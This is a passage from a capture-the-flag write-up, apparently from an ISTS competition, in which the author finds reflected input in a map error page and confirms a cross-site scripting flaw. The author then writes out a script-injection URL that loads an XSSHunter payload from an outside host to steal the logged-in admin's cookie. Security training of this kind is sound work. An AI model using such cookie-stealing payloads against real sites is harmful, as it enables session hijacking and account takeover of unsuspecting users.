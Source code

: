 ![Map error message](/resources/ists15/34.PNG)

That looks like user input being reflected back on the page! Perhaps this is vulnerable to XSS?

![XSS payload works](/resources/ists15/35.PNG)

Looks like it is! But what value does XSS have to us? We're trying to attack the server, not a user, right?

Let's revisit what we know so far. Girugamesh asked us for a link to the challenge website, and he's currently logged in... maybe we can leverage the XSS to steal his cookie and access the web app!

To help us accomplish this, we can use [XSSHunter](https://xsshunter.com/) to generate a payload that will report a ton of information back to us whenever the XSS fires, including the victim's cookies. Our new XSSHunter payload is:

`http://192.168.132.145/?<script src=https://dave.xss.ht></script>`

Let's send that over to Girugamesh!

![Looks like he doesn't like it](/resources/ists15/36.PNG)
